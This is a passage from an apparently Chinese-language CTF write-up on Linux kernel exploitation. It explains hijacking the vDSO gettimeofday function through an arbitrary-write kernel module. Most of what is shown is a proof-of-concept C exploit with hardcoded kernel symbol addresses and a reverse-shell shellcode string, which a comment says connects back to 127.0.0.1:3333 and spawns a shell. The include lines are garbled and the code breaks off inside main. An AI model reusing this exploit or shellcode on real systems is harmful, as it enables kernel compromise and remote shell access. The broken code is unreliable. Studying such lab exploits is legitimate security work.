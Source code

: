  

那么最终的 gettimeofday 相对于 vmlinux 基地址就是

```
gettimeofday_addr = 0xffffffff81e04b20+0xb20

```

#### (3) 任意写劫持 gettimeofday

最终利用任意写，将 gettimeofday 函数的内容改为我们的 shellcode 即可

#### POC

```
// gcc -static exp.c -o exp
// ffffffff810a78d0 T SyS_gettimeofday
// ffffffff810a78d0 T sys_gettimeofday
// ffffffff810b08f0 T do_gettimeofday
// ffffffff810c7350 T compat_SyS_gettimeofday
// ffffffff810c7350 T compat_sys_gettimeofday
//0x13d
#include #include #include #include #include #include #include #include #include #include #include #include #include #include #include #include #define GETTIMEOFDAY_FUN 0xB20
 
struct arbWriteNote
{
    ssize_t addr;
    ssize_t len;
    char* data;
};
struct arbWriteNote arbWriteObj;
 
 
//用于反弹shell的shellcode，127.0.0.1:3333
//或者在比赛中可以直接写类似Orw打开flag的shellcode
char shellcode[]="\x90\x53\x48\x31\xC0\xB0\x66\x0F\x05\x48\x31\xDB\x48\x39\xC3\x75\x0F\x48\x31\xC0\xB0\x39\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x09\x5B\x48\x31\xC0\xB0\x60\x0F\x05\xC3\x48\x31\xD2\x6A\x01\x5E\x6A\x02\x5F\x6A\x29\x58\x0F\x05\x48\x97\x50\x48\xB9\xFD\xFF\xF2\xFA\x80\xFF\xFF\xFE\x48\xF7\xD1\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x2A\x58\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x07\x48\x31\xC0\xB0\xE7\x0F\x05\x90\x6A\x03\x5E\x6A\x21\x58\x48\xFF\xCE\x0F\x05\x75\xF6\x48\x31\xC0\x50\x48\xBB\xD0\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xD3\x53\x48\x89\xE7\x50\x57\x48\x89\xE6\x48\x31\xD2\xB0\x3B\x0F\x05\x48\x31\xC0\xB0\xE7\x0F\x05";
 
 
//open dev
int openDev(char* pos);
int get_gettimeofday_str_offset();
 
int main(int argc, char *argv[])
{
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
 
    int devFD;
    int addrFD;
    unsigned long memOffset;
    pthread_t thread;
 
    //open Dev
    char* pos = "/dev/arbWriteModule";
    devFD = openDev(pos);
 
 
```